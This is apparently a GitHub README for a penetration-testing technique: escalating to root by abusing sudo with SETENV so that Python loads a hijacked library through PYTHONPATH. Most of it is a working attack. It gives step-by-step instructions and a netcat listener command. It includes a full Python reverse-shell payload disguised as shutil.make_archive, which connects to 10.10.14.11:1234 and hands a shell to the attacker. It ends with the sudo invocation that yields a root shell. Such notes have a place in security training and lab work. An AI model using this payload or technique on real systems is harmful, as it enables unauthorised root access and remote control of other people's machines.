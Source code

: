 # Python privesc via Sudo SETENV

Using Python library loading to privesc when we have `Sudo` permissions with `SETENV`.  
  
1. Place the CHANGE_ME.py in /dev/shm  
2. Rename to the lib being called by whatever we can sudo to (for example shutil -> make_archive)  
3. Change the function name accordingly to above  
4. Set NC listener (I use `$ nc -lnvp <portnum>`)  
5. Call sudo with python path updated as such:  
(Example taken above with shutil)
```
$ cd /dev/shm && cat shutil.py 
#!/usr/bin/env python3
import socket
import subprocess
import os

def make_archive(dst, t, src):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("10.10.14.11", 1234))
    sock.sendall('Call-back appeared, enter command:\n~$ '.encode())
    os.dup2(sock.fileno(), 0)
    os.dup2(sock.fileno(), 1)
    os.dup2(sock.fileno(), 2)
    
    while True:
        cmd = sock.recv(4096)
        process = subprocess.Popen(["/bin/sh", "-c", cmd], stdout=subprocess.PIPE)
        stdout = process.communicate()[0].decode("utf-8").split("\n")
        data = ''
        for line in stdout:
            data += line + "\n"
        data += '~$ '
        sock.sendall(data.encode())
$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh
=> Enjoy semi-interactive root-shell.
```